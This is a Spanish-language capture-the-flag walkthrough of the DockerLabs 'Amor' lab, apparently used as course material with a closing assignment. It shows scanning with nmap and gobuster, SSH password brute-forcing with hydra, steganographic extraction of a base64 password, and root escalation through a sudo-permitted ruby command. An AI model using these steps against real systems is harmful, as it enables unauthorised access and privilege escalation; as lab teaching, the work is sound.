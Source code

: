## DOCKERLABS

DockerLabs es una plataforma que ofrece una serie de desafíos prácticos relacionados con Docker, organizados por niveles de dificultad: Muy Fácil, Fácil, Medio y Difícil

# Reto Amor 

## Fácil

Dockerlabs.es

*Descarga*

![](Descarga.jpg)
## Despliegue del laboratorio.

Iniciaremos nuestro reto creando una carpeta para el ejercicio, descargando el laboratorio, descomprimiendo, otorgando permisos al script de despliegue y ejecutando el script.

└─# ./auto_deploy.sh amor.tar 

![](Despliegue.jpg)



## Escaneo

Lo primero que realizaremos será revisar nuestra interfaz de red con:

![](ipadd.jpg)

```bash
ip add 
```
para saber a qué segmento apuntaremos nuestros escaneos.

Ya con el segmento en vista y la interfaz, realizaremos una consulta a la red con el siguiente comando:

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

![](netdiscover.jpg)


Acto seguido, realizaremos una búsqueda con nmap (Network Mapper):

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

![](nmap.jpg)

La búsqueda nos devuelve que hay dos puertos abiertos, el **22** y el **80**.

Abrimos el navegador para revisar el servicio del puerto **80**.

A la vista no se encuentra nada, así que realizamos un fuzzing para ver si encontrábamos algo. Aun que veremos que es infructuoso el procdimieno. 

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](gobuster.jpg)

A esta altura el servicio web no nos dio el amor que buscábamos, pero sí nos quedamos con la pista de carlota y juan, así que intentaremos con Hydra por SSH con esos usuarios. (Inspección del sitio web)



## Conexión Hydra

Ejecutamos el siguiente comando de hydra, el cual nos da una respuesta positiva al fin:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

![](hydra.jpg)

Realizamos la conexión SSH con los datos obtenidos:

Navegamos a la siguiente ruta:

```bash
cd /carlota/Desktop/fotos/vacaciones
```

En donde encontrarás un archivo llamado `imagen.jpg`.

Para descargarlo lo realizaremos mediante scp como:

```bash
 scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
![](scp.jpg)


La imagen descargada es la siguiente:

![](foto.jpg)

## Con file identificamos el tipo de fichero.

file.jpg


## Esteganografía

Ya es sospechoso que solo exista una imagen entre las rutas, por lo cual decidimos realizar una consulta de esteganografía con:

```bash
steghide --extract -sf imagen.jpg
```

Dentro del archivo secret.txt encontraremos el siguiente código:

Realizamos una búsqueda para saber qué tipo de codificación es y nos da por resultado que es base64, así que realizamos una decodificación:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en root:

```bash
su oscar
```

Con `sudo -l` vemos que tenemos acceso a la consola de **ruby** y la ejecutamos:

![](sudo.jpg)

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Finalmente hacemos un:

```bash
whoami
```
![](root.jpg)

# Taller Individual.

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado  mediante un cuadro que explique su definición, funcionalidad y casos de uso.

2. Explicar en detalle cada uno de los comandos empleados realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando.
3. Realice un diagrama de flujo de todo el procedimiento realizado.

